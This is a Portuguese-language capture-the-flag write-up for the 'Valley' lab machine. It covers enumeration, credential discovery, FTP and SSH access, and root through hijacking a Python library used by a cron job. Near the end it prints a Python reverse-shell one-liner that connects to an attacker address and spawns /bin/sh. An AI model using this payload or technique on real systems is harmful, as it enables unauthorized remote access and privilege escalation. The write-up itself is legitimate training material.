# _**Valley CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```


Temos um website, vamos investigar  
Vamos realizar um scan com <mark>Gobuster</mark> para procurar diretórios  
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```


Temos alguns diretórios interessantes  
Vamos investigar  
Nos seguintes diretórios, não encontramos nada:
* _/gallery_
* _/pricing_

Um detalhe chamou a atenção em _/pricing/note.txt_  
Pede para alguém não deixar notas soltas  
Algo chamou a atenção em _/static_, estava vazio e não tinha nenhum redirecionamento em link  
Investigando novamente com <mark>Gobuster</mark> em _/status, encontramos algo interessante  
Tentando acessar os outros diretórios numéricos, temos as imagens, mas o diretório _/00_, temos uma mensagem  





Acessando o diretório listado, temos uma página de login!

## _**Ganhando acesso**_
Primeiro, uma tentativa de SQL Injection foi feita, mas sem nenhum sucesso  
Segundo, foi tentado observar o que acontecia quando realizavamos uma requisição para o site no login com <mark>BurpSuite</mark>, mas nada  
Observando as requisições feitas para o site ao acessá-la através das ferramentas de desenvolvedor, especificamente em _network_, temos algo que chama a atenção  
Um diretório de nome _/dev.js_  
Acessando o conteúdo de _devNotes37370.txt_, temos uma mensagem  



Acima, temos as credenciais para realizar login, do qual é usado para pegar as notas, mas não foi necessário  
Como a nota diz, temos um servidor FTP, mas nada foi detectado na porta 21  
Vamos realizar novamnte um scan com <mark>Nmap</mark>
> ```bash
> nmap -p- -sV --open [ip_address]
> ```


E encontramos! O mesmo valor do arquivo _.txt_ encontrado  
Vamos tentar realizar login via FTP pelas credenciais encontradas: ```ftp [ip_address] [port]```  
E sucesso!  



Investigando, temos alguns arquivos dos quais realizamo _download_  



Vamos utilizar <mark>Wireshark</mark> para investigar estes arquivos _.pcapng_  
O primeiro, _siemFTP.pcapng_, nos revelou alguns comandos e usuário, mas não conseguimos realizar login em nenhum  
O segundo, siemHTTP1.pcapng, não encontramos nada de relevante  
O terceiro, siemHTTP2.pcapng, encontramos credenciais novamente!  



Podemos tentar realizar login via FTP ou SSH  
Obtemos sucesso em SSH!  



## _**Escalando privilégios**_
Executamos alguns comandos básicos para verificação de arquivos, como ```sudo -l```, mas não temos permissão ou não encontramos algo  
Então, transferimos <mark>LinPeas</mark> para a máquina-alvo e executamos  
Encontramos algo interessante em _cron jobs_  



Um script em python que é executado pelo administrador  
Ele parece utilizar _base64_ para criptografia  
Devido as permissões, não iremos poder alterar nenhum para conseguir escalar privilégios  
Voltando as origens, _/home/valleyAuthenticator_ parece ser um arquivo promissor  
Podemos realizar _download_ para nossa máquina e investigar  
Utilizando ```string```, encontramos uma informação interessante  



Pesquisando sobre o programa, encontramos que, com base na visão geral fornecida no site UPX, podemos descompactar executáveis  
Executamos o comando ```upx -d valleyAuthenticator```  
Novamente, executamos ```strings```  
Vasculhando pelo resultado, encontramos duas _hashes md5_ e utilizamos crackstation para conseguir seu real valor  



Agora com o usuário _Valley_, que pertence ao grupo valleyAdmin, podemos escrever na biblioteca base64 importada naquele script para obter acesso root  
> ```bash
> import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[ip_address]",[port]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
> ```
Ligamos nosso ```netcat``` e aguardamos acesso _root_  


